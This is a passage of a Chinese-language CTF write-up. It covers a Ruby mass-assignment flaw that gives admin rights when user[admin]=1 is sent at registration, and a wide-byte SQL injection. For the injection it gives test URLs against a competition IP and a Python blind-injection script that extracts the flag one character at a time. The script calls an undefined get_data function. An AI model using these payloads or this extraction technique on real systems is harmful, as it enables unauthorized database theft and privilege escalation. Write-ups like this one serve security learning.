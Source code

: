 ```
	print r.content
```

这里坑特别大，服务器经常跑着跑着就被ban了，然后题目又是必须要跑的


## blog ##

ruby web代码审计

从头看一遍基本上能发现这代码基本没什么功能，控制器里基本上就是关于user的东西，基本就是关于用户信息的增删改查。

所以问题其实基本就是出现在在这里。

![image_1bb35c0pc1tnh19vi150lh7ma51u.png-78.7kB][4]

数据库中关于admin字段的定义是默认为false，在注册函数里，admin是有输入的

![image_1bb35dook13ad2va11hr1g1q1kg52b.png-21.4kB][5]

而默认传入的时候是不输入的，那么问题也就在这里了，如果注册的时候传入user[admin]=1

那么账户就会被定义为admin，逛逛就能找到flag了


## come on ##

这题在比赛时间内没能做出来，但实际上是我弱智了，题目不难，只是太久没见了，压根没想到，宽字节注入。

测试payload
```
http://218.2.197.235:23733/index.php?key=1%df%27||1=1%23

http://218.2.197.235:23733/index.php?key=1%df%27||1=2%23
```

但是有一些东西被过滤了，比如union，大于小于号，还有大把多的盲注函数，最后就剩下left，这里有个函数叫做BINARY，用于比较

payload
```
# coding=utf-8

import requests
import random
import hashlib

s = requests.Session()


def get_flag():

	url='http://218.2.197.235:23733/index.php?key=123%df%27||'
	flag = ""

	payload = "if((select(right(left((select(flag)from(flag)),{}),1)))=binary({}),1,0)%23"

	for j in range(1,33):

		for i in range(20,120):

			r = get_data(url + payload.format(str(j), hex(i)))

			if "002265" in r:
				flag +=chr(i)
				print flag
				break


```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g723vz1mg3ggwnzyibo9yf74/image_1bb32tqf61up77bn1mgpre7c4j9.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/eufulrcwusgaimxpspk9ukra/image_1bb32ubhv13cp1s2u1biup751ra9m.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5jeqqi6bvoku72l77d3c0zsv/image_1bb32up8j1di9h6p1eg97fleh13.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ex5ltlcnb355v32vrqus56g5/image_1bb35c0pc1tnh19vi150lh7ma51u.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/46ouk2f7idkxudoc57cy3kg5/image_1bb35dook13ad2va11hr1g1q1kg52b.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/njo0c3o4x7ye7zb1r9exlt8n/image_1bb3e0eq5ppbvk13rf1nrqhjn2o.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/btey08y9hxtcmryxt0ojtntl/%7B2C8B3DAC-ABA2-1DE1-B5E4-5084A09E2F83%7D.png